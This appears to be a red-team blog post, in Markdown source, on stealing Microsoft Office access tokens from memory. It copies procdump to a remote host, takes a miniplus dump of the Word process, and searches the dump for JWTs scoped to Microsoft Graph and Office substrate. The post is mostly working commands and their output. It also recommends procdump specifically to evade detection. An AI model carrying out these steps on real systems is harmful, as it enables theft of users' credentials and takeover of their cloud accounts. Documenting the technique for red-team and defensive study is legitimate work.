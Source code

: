 ```yaml
---
title: Stealing Microsoft Office tokens in memory
date: 2023-01-12 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Stealing Microsoft Office tokens in memory
#thumbnail: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
#image: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
---
```


Let us look into stealing Microsoft Office tokens present in memory on a host for a target pricipal. 

To simulate an MS Office login on the host using the a target user, a Macro command executing tool such as MacroRecorder was used to automate the log in process: https://www.macrorecorder.com/

```
& 'C:\Program Files (x86)\MacroRecorder\MacroRecorder.exe' -play=C:C:\Users\Administrator\Desktop\macro.mrf
```

Attempting to analyze and search for office tokens (`eyJ0eX`) using Process Hacker 2 after a valid login,  consistent results after a user simulation action are observed:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Stealing_office_tokens/Images/Pasted%20image%2020230925124733.png)

However when performing a minidump of the process and then looking for this string results were inconsistent, this is primarily because minidumps using say procdump do not include Private mapped regions. As an alternative we can perform a Full process memory dump or alternative dumps that can dump private mapped regions too.

To do so we can use a tool such as [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) as it is a trusted signed tool to evade detections.

After performing various procdump dumps with the working MacroRecorder simulation for the HTTPS interception part and looking for tokens with the string `eyJ0eX` the following results were observed:

**Perform a standard minidump (default)**: `-mm`
- Credentials: Rarely found
- Size: ~50mb

**Performing a full process dump**: `-ma `
- Credentials: Found always
- Size: ~650mb

**Performing miniplus dump**: `-mp` (preferred)
- Credentials: Found always, similar to full process dump 
- Size: ~95mb

Now, create a PSRemote session on the target as in objective and transfer procdump.

```
PS C:\> $session = New-PSSession -cn WIN-JH5F00D8313.nerd.corp

PS C:\> Copy-Item C:\Tools\procdump.exe -Destination C:\Users\public\ -ToSession $session -recurse
```

An example to perform a miniplus dump using procdump is as follows:

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> tasklist /v | findstr /i winword
WINWORD.EXE                   3396 RDP-Tcp#0                  2    196,988 K Running         EC2AMAZ-2LLTT7D\Administrator                           0:00:05 Document1  -  AutoRecovered  -  Compatibility Mode - Word

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> .\procdump.exe -mp 3396

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[07:05:01] Dump 1 initiated: C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_230925_070501.dmp
[07:05:02] Dump 1 complete: 97 MB written in 0.5 seconds
[07:05:02] Dump count reached.
```

We can then search for office tokens by looking for the string `eyJ0eX` using the `select-string` commandlet in PowerShell or Microsofts [strings64](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) tool:

Using `select-string` in PowerShell (preferred) we look for a token with `graph.microsoft.com` and `outlook.office365.com`. In this case first for `graph.microsoft.com`

*Regex NOTE: `.` is escaped as `.` is a special character in regular expressions and we want to match a literal dot. `.\*?` matches any characters (including spaces) in between "graph.microsoft.com" and "eyJ0eX" on the same line.*

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $graphtoken = Select-String -Path C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_231003_070025.dmp -Pattern "graph\.microsoft\.com.*?eyJ0eX"

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $graphtoken | out-file -append -encoding ascii graphtoken.out

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> gc graphtoken.out
[....snip...]
https://graph.microsoft.com//Users.Read":{"cachedl`�#4◄�15.0000ft Office Word2292ab01c","
credential_type":"AccessToken","environment":"login.windows.net","expires_on":"1695710790","extended_expires_on":"16956
24392","family_id":"","home_account_id":"52f19b5b-0567-4043-8ffe-48b00f43203d.e37fb390-11d6-47ac-9b5b-b853810a8411","ki
d":"","prt_protocol_version":"","realm":"e37fb390-11d6-47ac-9b5b-b853810a8411","redirect_uri":"urn:ietf:wg:oauth:2.0:oo
b","refresh_on":"0","requested_claims":"{\"access_token\":{\"xms_cc\":{\"values\":[\"CP1\"]}}}","secret":"eyJ0eXAiOi[...snip...]","session_key":"","session_key_rolling_date":"0","target":"email

[...snip...]
```

Copy and decode the token at `https://jwt.io/` as follows:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Stealing_office_tokens/Images/Pasted%20image%2020231003124256.png)

Similarly, here's an example for `substrate.office.com`:

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $substratetoken = Select-String -Path C:\Users\Administrator\Desktop\ca\ProcDump\WINWORD.EXE_231003_151238.dmp -Pattern "substrate\.office\.com.*?eyJ0eX"

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> $substratetoken | out-file -append -encoding ascii substratetoken.out

[WIN-JH5F00D8313.nerd.corp]: PS C:\Users\Administrator> gc substratetoken.out

https://substrate.office.com/User.Read https://substrate.office.com/UnifiedPolicy.User.Read
https://substrate.office.com/user_impersonation https://substrate.office.com/User-Internal.Read":{"cached_at":"16956244
01","client_id":"d3590ed6-52b3-4102-aeff-aad2292ab01c","credential_type":"AccessToken","environment":"login.windows.net
","expires_on":"1695724282","extended_expires_on":"1695624401","family_id":"","home_account_id":"52f19b5b-0567-4043-8ff
e-48b00f43203d.e37fb390-11d6-47ac-9b5b-b853810a8411","kid":"","prt_protocol_version":"","realm":"e37fb390-11d6-47ac-9b5
b-b853810a8411","redirect_uri":"urn:ietf:wg:oauth:2.0:oob","refresh_on":"0","requested_claims":"{\"access_token\":{\"xm
s_cc\":{\"values\":[\"CP1\"]}}}","secret":"eyJ0eXAiOiJKV1QiLCJub[...snip...]
QlmDfx5owE3HTj_rmkOxTXFjDNkbWm1zFouA","session_key":"","session_key_rolling_date":"0","target":"https://substrate.offic
e.com/Collab-Internal.Write https://substrate.office.com/Notes.ReadWrite
```

## References

https://mrd0x.com/stealing-tokens-from-office-applications/
